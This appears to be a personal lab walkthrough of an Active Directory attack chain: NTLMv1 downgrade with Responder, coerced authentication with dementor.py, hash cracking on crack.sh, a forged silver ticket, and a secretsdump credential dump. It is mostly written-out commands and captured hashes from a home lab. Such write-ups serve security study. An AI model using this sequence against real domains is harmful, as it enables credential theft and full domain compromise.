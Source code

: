 You can watch a video walk-through here: https://youtu.be/WuDTcwCjZ5s
# Getting the SID
```bash
enum4linux 192.168.50.135
```
The only information you need to run this command is the IP address of the Domain controller which in my case was 192.168.50.135.
![[Pasted image 20210415122818.png]]
We find that the SID is "S-1-5-21-3294894903-2995586124-3146476039"
This will be used later when generating the silver ticket.

# Responder
```bash
sudo python Responder.y -I eth0 -wrf --lm
```
Here the argument "--lm" is important because it downgrade the authentication used so that we can use crack.sh for free.

# Dementor
While responder is running, we can use dementor so that responder catches the response.
```bash
python3 dementor.py -u hacker -p ‘WordPass1’ -d CYBERTIGERS 192.168.50.136 192.168.50.135
```
Here the username is "hacker" with password "WordPass1", the domain is cybertigers and the first IP address is the attacker's machine and the second IP is the Domain Controller.
![[Pasted image 20210415123202.png]]
We get the hash for the machine account to be WIN-A2HCLSJFD0C$::CYBERTIGERS:D8C31819C7D7C02F9EEA1DF384DFC524DD51753DEFB3DA92:D8C31819C7D7C02F9EEA1DF384DFC524DD51753DEFB3DA92:1122334455667788

# NTLM MultiTool
``` bash 
python ntlmv1.py --ntlmv1 "WIN-A2HCLSJFD0C$::CYBERTIGERS:D8C31819C7D7C02F9EEA1DF384DFC524DD51753DEFB3DA92:D8C31819C7D7C02F9EEA1DF384DFC524DD51753DEFB3DA92:1122334455667788"
```
![[Pasted image 20210415123624.png]]
This output of this command gives the exact syntax to crack the hash using either hashcat or crack.sh

# Crack.sh
![[Pasted image 20210415123723.png]]
You can see from the screenshot I took the output of the last command and put it in crack.sh to crack and did not have to pay. It takes about 30 seconds to crack and I got the token of b704c94f943cd358cc77900267266b65

# Generating a Silver Ticket
```bash
python3 ticketer.py -nthash b704c94f943cd358cc77900267266b65 -domain-sid S-1-5-21-3294894903-2995586124-3146476039 -domain CYBERTIGERS.net -spn "HOST/DC1.CYBERTIGERS.net" Administrator
```
We give ticketer.py the token from crack.sh and it is of type nthash, along with the SID we got earlier, the domain cybertigers, the spn which in this case is the default value, and the Administrator username which is again default in this case.
![[Pasted image 20210415124056.png]]
The output is a file called Administrator.ccache

# DC Sync Time!
```bash
export KRB5CCNAME=Administrator.ccache
```
First you need to set the variable name KRB5CCNAME to the Administrator.ccache in order for secretsdump to work

```bash
python3 secretsdump.py Administrator@DC1.cybertigers.net -k -no-pass
```
Then we can run secrets dump giving it the username Administrator @ DC1 . the domain which is cybertigers.net and then we specify to use Kerberos because we have a silver ticket and to not ask for a password.
![[Pasted image 20210415124416.png]]
And that is it!